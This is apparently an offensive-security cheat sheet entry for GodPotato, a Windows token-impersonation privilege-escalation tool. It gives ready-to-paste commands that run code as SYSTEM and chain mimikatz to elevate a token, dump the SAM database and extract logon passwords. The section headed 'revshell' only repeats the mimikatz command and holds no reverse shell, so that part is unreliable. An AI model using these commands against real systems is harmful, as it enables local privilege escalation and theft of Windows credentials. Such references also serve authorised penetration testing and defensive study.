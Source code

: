 # GodPotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd "cmd /c whoami"
```


## mimikatz 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd  'cmd /c c:\temp\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "sekurlsa::logonpasswords /all" "exit"'
```


## revshell 
https://github.com/BeichenDream/GodPotato
```cmd
.\GodPotato.exe -cmd  'cmd /c c:\temp\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "sekurlsa::logonpasswords /all" "exit"'
```